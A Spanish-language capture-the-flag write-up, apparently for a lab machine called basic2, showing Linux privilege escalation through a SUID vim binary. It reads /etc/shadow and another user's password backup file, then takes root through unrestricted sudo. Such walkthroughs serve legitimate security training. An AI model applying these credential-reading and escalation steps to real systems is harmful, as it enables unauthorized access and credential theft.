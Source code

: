 ````
jan@basic2:~$ find / -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/vim.basic
/usr/bin/pkexec
/usr/bin/newgrp
....
jan@basic2:~$ 
````
Buscamos en el gtfobins, pero los suid con vim son para version de python 3, he mirado la version con:
````
jan@basic2:~$ python -V
Python 2.7.12
````
No es python3, vim también se usa como editor de contenido vamos a ver si podemos ver el shadow con esto ya que la máquina tiene crackhashes
:
````
/usr/bin/vim.basic /etc/shadow
````
Y nos da 
````
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
````
Pero no me funciona, despues dentro de la carpeta he visto dos cosas interesantes un id_rsa y un pass.bak el cual he abuerto haciendo:
````
jan@basic2:/home/kay$ /usr/bin/vim.basic pass.bak
````
Entonces con un dencillo su kay he entrado 
````
su kay
````
Después de esto he realizado
````
kay@basic2:~$ sudo -l
[sudo] password for kay: 
Sorry, try again.
[sudo] password for kay: 
Sorry, try again.
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
````
Tiene todos los permidos entonces:
````
kay@basic2:~$ sudo su root
root@basic2:/home/kay# whoami
root
root@basic2:/home/kay#
````
Un escalado muy sencillo ahora ha hacer las tascas
## Task Web App Testing and Privilege Escalation 
